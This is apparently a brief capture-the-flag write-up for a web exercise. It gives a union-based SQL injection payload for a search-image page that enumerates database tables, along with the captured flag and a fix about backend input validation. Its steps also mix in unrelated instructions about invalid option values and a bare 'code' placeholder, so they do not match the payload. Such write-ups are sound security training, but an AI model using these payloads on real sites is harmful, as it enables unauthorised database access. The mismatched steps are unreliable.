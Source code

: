 # Where:
    /?page=searchimg
# How:
    -By entering
    `-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()`
    -Change the value of 1 of the options to an invalid value.
    `code`
    Or
    -Add an invalid option.
    -Select the invalid value
    -Receive the flag
# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).